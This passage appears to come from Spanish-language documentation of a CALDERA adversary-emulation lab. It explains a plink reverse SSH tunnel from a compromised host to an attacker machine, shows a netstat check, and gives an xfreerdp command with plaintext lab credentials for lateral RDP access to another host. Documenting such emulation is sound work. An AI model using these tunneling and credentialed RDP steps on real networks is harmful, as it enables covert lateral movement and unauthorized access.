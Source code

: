 6. **`-l saka`**
   - Login username para servidor SSH
   - Usuario en la plataforma de ataque Linux

7. **`-pw "$ceKa#zU$Uc4^9yZ"`**
   - Contraseña para el usuario saka
   - Evita prompt interactivo de contraseña

8. **`192.168.0.4`**
   - Dirección del servidor SSH (plataforma de ataque)

**Ejecución en Background:**

En la implementación CALDERA, el comando se ejecuta con `exec-background`, lo que significa:
- El proceso plink permanece en ejecución
- No bloquea el agente para recibir nuevos comandos
- Mantiene el túnel activo hasta ser terminado explícitamente

**Diagrama del Túnel:**

```
[Atacante: 192.168.0.4]              [THEBLOCK: 10.1.0.5]         [WATERFALLS: 10.1.0.6]
        |                                     |                             |
   [SSH Server]  <---SSH Connection---  [Plink Cliente]                    |
   Port: 22                                   |                             |
        |                                     |                             |
   [Listener]                         [Port Forward]  ----RDP---->   [RDP Server]
   localhost:13389                                                   Port: 3389
```

**Flujo de datos:**
1. Usuario en 192.168.0.4 conecta a localhost:13389
2. SSH server redirige a través del túnel SSH
3. Plink en THEBLOCK recibe y envía a 10.1.0.6:3389
4. WATERFALLS responde via el mismo camino inverso

**Paso 3: Verificación del Túnel**

En la plataforma de ataque Linux:

```bash
netstat -antulp | grep 13389
```

**Salida esperada:**
```
tcp        0      0 127.0.0.1:13389         0.0.0.0:*               LISTEN      2456/sshd: saka
```

**Interpretación:**
- El puerto 13389 está en escucha
- Proceso: sshd (servidor SSH)
- Usuario: saka
- Solo escucha en 127.0.0.1 (localhost) por seguridad

**Paso 4: Conexión RDP a través del Túnel**

```bash
xfreerdp /u:'boombox\gosta' /p:'d0ntGoCH4$ingW8trfalls' /v:localhost:13389
```
